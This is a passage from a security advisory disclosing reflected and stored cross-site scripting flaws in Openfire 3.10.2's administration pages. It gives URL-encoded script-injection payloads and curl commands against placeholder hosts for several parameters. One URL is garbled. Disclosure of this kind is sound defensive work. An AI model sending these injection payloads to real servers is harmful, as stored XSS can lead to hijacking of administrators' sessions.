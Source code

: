 or

```

domain=%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&serverBlocked=Block+Server
```

You can reproduce the exploitation with the following curl commands:

```
curl --data "domain=%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&remotePort=5269&serverAllowed=Add+Server" https://OpenFireServerIP:9090/server2server-settings.jsp --cookie="JSESSIONID=XXX"

curl --data "domain=test&remotePort=5269%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&serverAllowed=Add+Server" https://OpenFireServerIP:9090/server2server-settings.jsp --cookie="JSESSIONID=XXX"

curl --data "domain=%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&serverBlocked=Block+Server" https://OpenFireServerIP:9090/server2server-settings.jsp --cookie="JSESSIONID=XXX"
```

#### *criteria* variable from *plugins/search/advance-user-search.jsp*

The following GET request exploits the XSS vulnerability:

```
http://OpenFireServerIP:9090/[[http://OpenFireServerIP:9090/plugins/search/advance-user-search.jsp?search=true&moreOptions=false&criteria=admin%22/%3E%3Cscript%3Ealert%28%27XSS%27%29%3C/script%3E&search=Search
```


## Several stored XSS Vulnerabilities identified in Openfire 3.10.2

**Access Vector**: remote

**Security Risk**: low

**Vulnerability**: CWE-79

**CVSS Base Score**: 5.5

[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O

### Vulnerability Description

Several XSS vulnerabilities have been found on several pages of the administration panel. Stored XSS could lead to session hijacking on admin user.

### Proof of Concept

#### *mucdesc* variable from *muc-service-edit-form.jsp*

The following POST values can be sent to trigger the vulnerability:

```
save=true&mucname=test&mucdesc=test%22%2F%3E%3Cscript%3Ealert%28%27XSS-2%27%29%3C%2Fscript%3E
```


[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O